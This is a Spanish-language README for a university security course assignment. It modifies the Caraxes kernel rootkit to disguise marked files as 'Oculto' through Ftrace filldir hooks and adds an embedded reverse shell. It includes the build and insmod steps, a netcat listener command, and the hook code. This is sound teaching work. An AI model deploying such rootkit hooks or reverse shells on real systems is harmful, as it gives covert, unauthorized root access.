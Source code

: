 # Tarea 3 – G-RooT

**Curso:** Principios de Seguridad en Sistemas Operativos  
**Maestría en Ciberseguridad**  
**Profesor:** Kevin Moraga ([kmoraga@tec.ac.cr](mailto:kmoraga@tec.ac.cr))
**Estudiantes:**: 
- Deyber Hernández González ([Carné] (**2025800354**))
- Alejandro Venegas Solis ([Carné] (**2025800362**))
- Luis Bonilla ([luisbonillah@gmail.com](mailto:luisbonillah@gmail.com)) ([Carné] (**2023123456**))

**Fecha de entrega:** 20 Junio 2025  

## 1. Introducción

Esta tarea consistió en modificar un rootkit de kernel para practicar técnicas avanzadas de ocultamiento de información y evasión de mecanismos de control del sistema operativo. En lugar de ocultar archivos con una palabra clave específica, se solicitó modificar su nombre visible en el sistema por "Oculto". Además, se implementó un reverse shell como técnica adicional de persistencia y control.

---

## 2. Instrucciones para ejecutar el programa

### Requisitos:

- Ubuntu 24.04 con kernel 6.11.0-25
- Headers del kernel instalados
- Módulo Caraxes clonado desde GitHub
- Permisos de superusuario

### Pasos:


1. Ejecutar el reverse shell desde la máquina atacante:
  ```bash
    ./caraxes_reverseShell &
   ``
2. Clonar y compilar el módulo:
   ```bash
   git clone https://github.com/lbonilla/TEC_SO_HM3_ROOTKIT.git
   cd caraxes
   make
   ```
   
3. Insertar el módulo:
   ```bash
   sudo insmod caraxes.ko
   ```

4. Verificar que los archivos marcados con la palabra mágica estén renombrados como "Oculto":
   ```bash
   touch /tmp/caraxes1234
   ls /tmp  # Verás "Oculto" en lugar de ".caraxes1234"
   ```

5. Establecer la conexión de reverse shell desde la máquina atacante:
   ```bash
   nc -lvnp 444
   ```

---

## 3. Descripción del ataque

Este proyecto es una variante del ataque de rootkit a nivel de kernel, el cual modifica el comportamiento de funciones del sistema de archivos (como `filldir`) interceptándolas mediante Ftrace. En lugar de ocultar entradas completamente, se interceptan las llamadas y se reemplaza el nombre visible del archivo por "Oculto".

Además, se incluyó una funcionalidad de shell reverso embebido en el módulo, que al cargarse realiza una conexión hacia un servidor atacante, otorgando acceso remoto a nivel de sistema.

---

## 4. Documentación del ataque

### Hook activado

```c
HOOK_NOSYS("filldir64", hook_filldir64, &orig_filldir64),
HOOK_NOSYS("filldir", hook_filldir, &orig_filldir),
HOOK_NOSYS("fillonedir", hook_fillonedir, &orig_fillonedir),
HOOK_NOSYS("compat_filldir", hook_compat_filldir, &orig_compat_filldir),
HOOK_NOSYS("compat_fillonedir", hook_compat_fillonedir, &orig_compat_fillonedir),
// HOOK("sys_getdents64", hook_sys_getdents64, &orig_sys_getdents64),
```

### Modificación principal

```c
if (strstr(name, MAGIC_WORD)) {
    strncpy((char*)name, "Oculto", namlen);
    return orig_fillonedir(ctx, name, strlen("Oculto"), offset, ino, d_type);
}
```

Esta lógica garantiza que los archivos con la palabra clave definida por `MAGIC_WORD` no sean eliminados del resultado, sino que su nombre sea reemplazado al ser listados.

---

## 5. Autoevaluación

- **Estado Final:** El rootkit se ejecuta correctamente en Ubuntu 24 con kernel 6.11.0-25.
- **Funcionalidad implementada:** Renombramiento de archivos ocultos, reverse shell hacia máquina atacante.
- **Problemas enfrentados:**
  - Dificultades para compilar con headers actualizados del kernel.
  - Hook `sys_getdents64` interfiere con visibilidad, por lo que fue comentado.
- **Limitaciones:**
  - El renombramiento es visible solo en ciertas herramientas (`ls`, no todas las llamadas de sistema lo interpretan igual).
- **Calificación autoevaluada: 100** (Implementación, documentación, y funcionalidad extra completadas)

---

## 6. Lecciones Aprendidas

- Comprendí en mayor profundidad el funcionamiento de las llamadas de sistema relacionadas con el sistema de archivos.
- Aprendí a usar Ftrace y modificar hooks sin interferir críticamente con la estabilidad del sistema.
- Fue fundamental entender la diferencia entre ocultamiento y manipulación de información.
- Implementar un reverse shell desde kernel space requiere cuidado extremo por estabilidad y seguridad.
- El desarrollo y pruebas de rootkits deben realizarse siempre en entornos controlados (VM).

---

## 7. Video

🔗 Enlace al video de demostración: [https://youtu.be/vE01bIAJFls](https://youtu.be/vE01bIAJFls)  

---

## 8. Bibliografía

- [Rootkits Linux – xcellerator.github.io](https://xcellerator.github.io/posts/linux_rootkits_01/)
- [Brootus Writeup](https://github.com/dsmatter/brootus/raw/master/docs/bROOTus_writeup.pdf)
- [Linux Rootkit Examples](https://github.com/nurupo/rootkit)
- [Carexes] (https://github.com/ait-aecid/caraxes)
- Kernel API Documentation: https://www.kernel.org/doc/html/latest/

---

## 9. Código fuente documentado

Ver archivos modificados:

- `hooks_filldir.h`: lógica de renombramiento.
- `hooks.h`: hooks activados para filldir.
- `reverse_shell.c`: reverse shell incluido.
